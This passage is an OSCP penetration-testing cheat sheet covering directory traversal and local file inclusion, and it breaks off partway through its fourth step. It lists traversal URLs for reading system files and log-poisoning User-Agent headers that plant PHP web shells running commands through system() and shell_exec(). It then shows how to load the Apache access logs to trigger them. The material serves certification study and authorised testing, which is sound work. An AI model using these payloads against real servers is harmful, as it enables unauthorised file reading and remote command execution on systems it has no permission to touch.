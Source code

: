 # OSCP Cheat Sheet by 0xpr0N3rd

**Thanks to JohnJHacking && ByteFellow for Privilege Escalation parts on this list.**

##

## Directory Traversal & LFI

### Directory Traversal

**IMPORTANT:** Find the **VULNERABLE** parameter **FIRST**.

Read sample file on **Windows**:

```
vuln.php?param=c:\windows\system32\drivers\etc\hosts
```

Read sample file on **Linux**:

```
vuln.php?param=/etc/hosts
```

## 

### Local File Inclusion

**First**, Locate the **VULNERABLE** parameter.

**Second**, try to do **Log Poisoning**:

```
User-Agent: <?php system($HTTP_GET_VARS[cmd]) ?><?php die ?>

or 

User-Agent: <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

**NOTE:** This injection is also possible if there's FTP installed on the box.

**Third**, look again to the log files:

**Windows:**

```
vuln.php?param=c:\xampp\apache\logs\access.log
```

**Linux:**

```
vuln.php?param=/var/log/apache2/access.log
```

**Fourth**, perform LFI:

**Windows:**
